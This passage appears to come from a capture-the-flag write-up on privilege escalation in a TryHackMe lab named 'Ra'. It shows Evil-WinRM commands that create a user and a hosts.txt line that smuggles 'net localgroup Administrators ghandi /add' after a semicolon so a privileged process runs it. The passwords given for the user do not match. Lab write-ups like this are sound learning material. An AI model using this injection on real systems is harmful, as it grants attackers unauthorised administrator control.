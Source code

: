 Since we couldn't add a user to the Administrator group earlier, maybe we can do this by using the hosts.txt.

## Privilege Escalation - GHANDI

I created a user called "ghandi" with the following command:

<pre>*Evil-WinRM* PS C:\Users\buse\Documents> net user ghandi CyberGoat1234 /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\buse\Documents> net localgroup Administrators ghandi /add
net.exe : System error 5 has occurred.
    + CategoryInfo          : NotSpecified: (System error 5 has occurred.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

Access is denied.</pre>

As you can see, access is denied with trying to add ghandi to the Admin group. Let's add that command to our hosts.txt and put it in the system for it to hopefully be executed.

<pre>┌─[user@parrot]─[~/tryhackme/Ra]
└──╼ $cat hosts.txt 
google.com 
notadomain.ru; net localgroup Administrators ghandi /add</pre>

<pre>put hosts.txt</pre>

![put hosts](https://imgur.com/7K6ySis.png)

Now we can attempt to log in as ghandi:

<pre>evil-winrm -i ra.thm -u ghandi -p CyberGoat12345</pre>

![ghandi evilwin](https://imgur.com/oMsdqfP.png)

We're logged in as ghandi!

We gave ourselves admin rights so the rest is to find the last flag.

![flag3.txt](https://imgur.com/1z5WyYq.png)

Thank you for reading.

![ghandi](https://imgur.com/65P2i74.png)



